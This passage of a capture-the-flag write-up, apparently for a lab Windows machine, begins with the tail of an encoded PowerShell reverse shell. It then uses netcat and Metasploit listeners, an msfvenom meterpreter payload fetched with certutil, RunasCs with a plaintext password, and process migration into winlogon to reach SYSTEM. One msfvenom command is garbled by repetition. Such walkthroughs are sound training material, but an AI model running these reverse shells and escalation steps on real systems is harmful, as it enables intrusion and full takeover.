AYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==}
```

We can catch the reverse shell by running netcat listener.

```
┌──(Batman㉿GC)-[~]
└─$ nc -lnvp 4445
listening on [any] 4445 ...
connect to [10.10.16.52] from (UNKNOWN) [10.10.11.251] 58258

PS C:\Users\alaading\Documents> whoami
pov\alaading
PS C:\Users\alaading\Desktop> type user.txt
8fba8445---------
```

**PRIVILEGE ESCALATION.**

Initially we can see **SeDebugPrivilege** disabled.

Let’s bypass this with **runascs.exe**

```
┌──(Batman㉿GC)-[~]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o s1.exemsfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o s1.exe msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o s1.exe
```

```
┌──(Batman㉿GC)-[~]
└─$ wget https://github.com/antonioCoco/RunasCs/releases/download/v1.5/RunasCs.zip

┌──(Batman㉿GC)-[~]
└─$ unzip RunasCs.zip
 
┌──(Batman㉿GC)-[~]
└─$ python -m http.server 8081

Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.10.11.251 - - [30/Jan/2024 10:44:08] "GET /s1.exe HTTP/1.1" 200 -
10.10.11.251 - - [30/Jan/2024 10:44:08] "GET /s1.exe HTTP/1.1" 200 -
10.10.11.251 - - [30/Jan/2024 10:44:29] "GET /RunasCs.exe HTTP/1.1" 200 -
10.10.11.251 - - [30/Jan/2024 10:44:29] "GET /RunasCs.exe HTTP/1.1" 200 -
```

We have to upload the meterpreter file and **runascs.exe** to server.

```
PS C:\Users\alaading> certutil -urlcache -f http://10.10.14.52:8081/s1.exe s1.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

PS C:\Users\alaading> certutil -urlcache -f http://10.10.14.52:8081/RunasCs.exe RunasCs.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

PS C:\Users\alaading> .\RunasCs.exe alaading f8gQ8fynP44ek1m3 "C:\\Users\\alaading\\s1.exe"
```

Start **metasploit** framework and catch the shell.

```
┌──(Batman㉿GC)-[~]
└─$ msfconsole

use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 4444
RUN

[*] Started reverse TCP handler on 10.10.14.52:4444
[*] Sending stage (200774 bytes) to 10.10.11.251
[*] Meterpreter session 1 opened (10.10.14.52:4444 -> 10.10.11.251:58299) at 2024-01-28 10:46:31 +0200

(Meterpreter 1)(C:\Windows\system32) > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeDebugPrivilege
SeIncreaseWorkingSetPrivilege
```

Now run **ps** command in meterpreter and find the PID of **winlogon.exe** process

```
(Meterpreter 1)(C:\Windows\system32) > ps

Process List
============

 PID   PPID  Name               Arch  Session  User          Path
 ---   ----  ----               ----  -------  ----          ----
...


 556   480   winlogon.exe       x64   1                      C:\Windows\System32\winlogon.exe


...

(Meterpreter 1)(C:\Windows\system32) >
```

Next we should migrate to the PID of **winlogon.exe**, In my case it is 556.

```
(Meterpreter 1)(C:\Windows\system32) > migrate 556
[*] Migrating from 6336 to 556...
[*] Migration completed successfully.
(Meterpreter 1)(C:\Users\Administrator\Desktop) > shell
Process 1000 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Desktop>whoami
whoami
nt authority\system

C:\Users\Administrator\Desktop>
```

```
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0899-6CAF

 Directory of C:\Users\Administrator\Desktop

01/15/2024  04:11 AM    <DIR>          .
01/15/2024  04:11 AM    <DIR>          ..
01/28/2024  04:41 AM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   4,019,208,192 bytes free

C:\Users\Administrator\Desktop>type root.txt
type root.txt
0a74da9013d9f6506de-------
```

Hurray!! Got the root access.

<figure><figcaption><p><a href="https://www.buymeacoffee.com/b4tm4n">https://www.buymeacoffee.com/b4tm4n</a></p></figcaption></figure>
